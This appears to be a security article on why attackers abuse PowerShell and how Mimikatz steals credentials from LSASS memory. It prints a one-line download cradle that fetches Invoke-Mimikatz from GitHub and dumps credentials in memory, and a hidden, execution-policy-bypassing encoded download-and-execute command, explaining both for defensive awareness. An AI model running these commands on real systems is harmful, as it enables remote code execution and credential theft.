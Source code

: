 
# Malicious Powershell 
In this series, I'll discuss why organizations should care about malicious Powershell activity, how the attackers use Powershell to steal credential(e.g.,Mimikatz) and how to prevent and detect malicious Powershell activity.

## Why do attackers love Powershell ?
PowerShell, a powerful Windows scripting language, is used by IT professionals and adversaries alike. Attackers favor PowerShell for several reasons:

- It's build-in command line tool.
- It can download and execute code from another system.
- It provides unprecedented access on Windows computers
- It’s enabled on most computers, as system administrators use PowerShell to automate various tasks (e.g,. shut down your machines automatically at 12 a.m.—do this via task scheduler)
- Its malicious use is often not stopped or detected by traditional endpoint defenses, as files and commands are not written to disk. This means fewer artifacts to recover for forensic analysis.

Several offensive tools exist that are built on or use PowerShell, including the following:
- [Empire](https://github.com/EmpireProject/Empire)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Metasploit](https://www.rapid7.com/db/modules/post/windows/manage/exec_powershell/)
- [Invoke-Mimikatz](https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz)

Eliminating Powershell isn't ideal due to the benifits it offers IT administrators. Instead, we need to learn how to secure Powershell.

Let's take a deep dive into Powershell usage to dump password with Mimikatz.

## What is Mimikatz, and how does it work?
Mimikatz is a post-exploitation tool used to dump passwords, hashes, and Kerberos tickets from memory. Attackers use Mimikatz to steal credentials and escalate their privileges; similarly, pen testers use Mimikatz to retrieve plaintext versions of passwords from hashes stored in memory (these exist to provide Windows single sign-on (SSO) functionality). It enables many attacks that use credentials such as pass the hash, pass the ticket, golden Kerberos ticket, and so on. 

In order to facilitate SSO, whenever a user authenticates, a variety of credentials are generated and stored in LSASS memory. The credentials stored in LSASS memory can be NTLM password hashes, Kerberos tickets, and even clear-text passwords when using the Windows feature WDigest. WDigest, introduced with Windows XP, is an authentication protocol used for LDAP and web-based authentication. Client machines that seek to authenticate must demonstrate their knowledge of secret keys. This improves on earlier versions of HTTP authentication where the user provides a password that is not encrypted when sent to authenticating server. As WDigest stores cleartext passwords in memory, if an attacker has control over that endpoint, they can run Mimikatz to steal hashes and clear text passwords.

Mimikatz was most famously used in the Petya and NotPetya attacks that affected thousands of computers worldwide between 2016 and 2017. The NotPetya virus, similar to Petya, infects a target computer, encrypts the data on the computers and displays a message for the victim explaining how to send bitcoin in order to retrieve the encrypted data.

Let's look at a malicious PowerShell command for fileless network access and remote content execution. This command passes the contents of the file hosted on the below URL to PowerShell via the commandline, and executes it "in memory" on the target system:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
    
where:
- IEX or Invoke-Expression cmdlet: executes the command provided on the local machine.
- New-Object cmdlet: creates an instance of a .NET Framework
- downloadstring: download the contents from Github into a memory buffer, which IEX will execute
- DumpCreds parameter: instructs Mimikatz to dump credentials out of LSASS.  


---

      powershell.exe -Noprofile -NonI -W Hidden -Exec Bypass -encodedcommand  SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cHM6Ly93d3cuZmlyZWV5ZS5jb20vY29tcGFueS9qb2JzLmh0bWwnKSk=

The following is a quick explanation of the arguments:
- -NoProfile – indicates that the current user’s profile setup script should not be executed when the PowerShell engine starts.
- -NonI – shorthand for -NonInteractive, meaning an interactive prompt to the user will not be presented.
- -W Hidden – shorthand for “-WindowStyle Hidden”, which indicates that the PowerShell session window should be started in a hidden manner.
- -Exec Bypass – shorthand for “-ExecutionPolicy Bypass”, which disables the execution policy for the current PowerShell session (default disallows execution). It should be noted that the Execution Policy isn’t meant to be a security boundary.
- -encodedcommand – indicates the following chunk of text is a base64 encoded command.

--- 
Check version of powershell 
        
        $PSVersionTable

| Name                           | Value                      |
|:------------------------------:|:--------------------------:|                         
| PSVersion                      | 5.1.19041.1682             |
| PSEdition                      | Desktop                    |
| PSCompatibleVersions           | {1.0, 2.0, 3.0, 4.0...}    |
| BuildVersion                   | 10.0.19041.1682            |
| CLRVersion                     | 4.0.30319.42000            |
| WSManStackVersion              | 3.0                        |
| PSRemotingProtocolVersion      |2.3                         |
| SerializationVersion           | 1.1.0.1                    |  
